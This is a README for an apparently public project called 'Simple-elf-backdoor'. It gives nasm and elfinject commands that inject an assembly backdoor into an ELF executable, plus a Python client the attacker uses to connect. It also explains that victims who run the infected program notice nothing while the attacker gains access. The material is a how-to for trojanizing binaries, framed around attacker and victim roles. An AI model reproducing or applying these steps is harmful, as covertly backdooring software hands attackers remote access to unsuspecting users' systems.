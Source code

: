 # Simple-elf-backdoor

It is an elf backdoor written in pure assembly language.

## Attacker
### backdoor
```bash
$ nasm -f bin backdoor.s -o backdoor.bin
$ ./elfinject elftarget backdoor.bin ".injected" 0x800000 0
```
### backdoor_client
```
$ python3 tcpClient.py
```
## victim
If victim download or obtain the file in any way
```
$ ./elftarget
```
The victim uses the original program without problems and Attackers use backdoors.

## Demo
### backdoor
![backdoor](https://github.com/gbdngb12/Simple-elf-backdoor/assets/104804087/84720f5f-7caf-45aa-b28a-00632b779317)

### backdoor_client
![client](https://github.com/gbdngb12/Simple-elf-backdoor/assets/104804087/29cf4cf6-bf88-456f-8cc2-052c8ae33f0c)
